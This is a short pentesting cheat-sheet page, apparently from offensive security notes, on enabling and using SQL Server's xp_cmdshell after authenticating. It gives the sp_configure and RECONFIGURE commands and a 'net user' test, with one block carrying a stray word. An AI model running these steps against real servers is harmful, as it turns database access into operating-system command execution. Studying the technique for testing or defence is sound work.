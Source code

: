 # SQLi

After successfully authenticating to a SQL Server \
It is worth a shot to verify if xp\_cmdshell has been previously activated with:\


```
EXEC xp_cmdshell 'net user';
```

``

If xp\_cmdshell has not been activated, run the below commands to activate and utilize Windows XP cmd commands within SQL:

<pre><code># The command below enables sp_configure 

<strong>EXEC sp_configure 'show advanced options', 1;</strong></code></pre>

```
RECONFIGURE; sp_configure; 
```

```
message EXEC sp_configure 'xp_cmdshell', 1;
```

```
RECONFIGURE;
```
